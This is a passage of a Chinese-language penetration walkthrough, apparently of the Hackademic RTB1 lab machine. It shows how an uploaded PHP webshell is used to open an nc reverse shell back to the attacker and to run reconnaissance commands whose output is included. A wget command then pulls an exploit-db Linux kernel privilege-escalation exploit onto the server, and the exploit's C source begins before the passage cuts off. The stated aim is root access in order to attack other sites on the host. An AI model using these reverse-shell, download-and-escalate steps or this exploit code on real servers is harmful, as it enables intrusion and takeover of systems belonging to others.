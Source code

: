 [![上传漏洞获得webshell](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/0341256aB.png "29")](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/0341256aB.png)

Php webshell被解析了，我们可以控制你网站的文件，但是我们只希望获得网站服务器的root权限,来入侵服务器上其它的网站。

我们用NC来反弹一个shell,首先在我们的电脑上监听5555端口.

[![NC反弹](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034130Xjn.png "32")](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034130Xjn.png)

然后在Php webshell上反向连接我们的电脑，输入你的IP和端口5555.
[![NC反弹](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034145p83.png "31")](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034145p83.png)

点击连接我们会看到
[![NC反弹](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034153nRQ.png "33")](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034153nRQ.png)

&nbsp;

接下来我们尝试执行一些命令：

id

uid=48(apache) gid=489(apache) groups=489(apache)
（用来显示用户的id和组）

pwd

/var/www/html/Hackademic_RTB1/wp-content/plugins
（显示服务器上当前的路径）

uname -a

Linux HackademicRTB1 2.6.31.5-127.fc12.i686 #1 SMP Sat Nov 7 21:41:45 EST 2009 i686 i686 i386 GNU/Linux
（显示内核版本信息）

[![Linux基础命令](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034220jQo.png "34")](http://7xnueu.com1.z0.glb.clouddn.com/auto_save_image/2013/02/034220jQo.png)

现在我们知道，服务器的内核版本是2.6.31.5-127.fc12.1686,我们在exploit-db.com中搜索此版本的相关漏洞.
在服务器上测试了很多exp之后，我们用以下的exp来提升权限.
[http://www.exploit-db.com/exploits/15285](http://www.exploit-db.com/exploits/15285)

我们在nc shell上执行以下命令:
**wget http://www.exploit-db.com/exploits/15285 -o roro.c**
(下载exp到服务器并重命名为roro.c)
注：很多linux内核的exp都是C语言开发的,因此我们保存为.c扩展名.
exp roro.c代码如下：

#include &lt;stdio.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;sys/socket.h&gt;
#include &lt;netinet/in.h&gt;
#include &lt;errno.h&gt;
#include &lt;string.h&gt;
#include &lt;sys/ptrace.h&gt;
#include &lt;sys/utsname.h&gt;
#define RECVPORT 5555
#define SENDPORT 6666
int prep_sock(int port)
{
int s, ret;
struct sockaddr_in addr;
s = socket(PF_RDS, SOCK_SEQPACKET, 0);
if(s &lt; 0)
{